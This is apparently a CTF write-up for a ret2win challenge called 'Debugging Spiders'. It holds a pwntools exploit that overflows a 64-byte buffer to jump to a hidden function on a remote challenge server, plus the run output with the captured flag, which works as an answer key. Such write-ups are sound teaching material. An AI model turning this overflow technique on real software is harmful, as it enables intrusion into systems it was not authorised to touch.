 # Debugging Spiders
<br>
<br>

In this Challenge our objective is to jump to a function called `secret_spider`, the binary itself print an address where we are jumping to after we give the binary some input, it's a classic Ret2win challenge, with the gdb I was able to find the offset which is 64 and then the address of the `secret_spider`, and make an exploit base on what I found. Sadly when I tried to test it against the server, I don't see the flag anywhere, I tried to change my `p.interactive()` to `p.recvall()` since I thought the cause is that not all stdout is being printed with interarctive and I finally get the flag.

**solver.py**
```python
from pwn import *

binary = './spiders'
elf = context.binary = ELF(binary, checksec=True)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

if 'remote' in sys.argv:
    p = remote('34.124.192.13', 27302)
else:
    p = process(binary)
    if 'gdb' in sys.argv:
        gdb.attach(p, gdbscript=gdbscript)

payload = b'a'*64
payload+= p32(0x080491a6)

p.sendline(payload)

print(p.recvall())
```

```bash
$ python3 solve.py remote
[*] '/home/kiinzu/Documents/FCTF/spiders'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 34.124.192.13 on port 27302: Done
[+] Receiving all data: Done (123B)
[*] Closed connection to 34.124.192.13 port 27302
b'FindITCTF{Ju57_7h3_W4y_1t_iz}\ncalling function pointer, jumping to 0x080491a6\nWhy the silly face when the room so serious?\n'
```
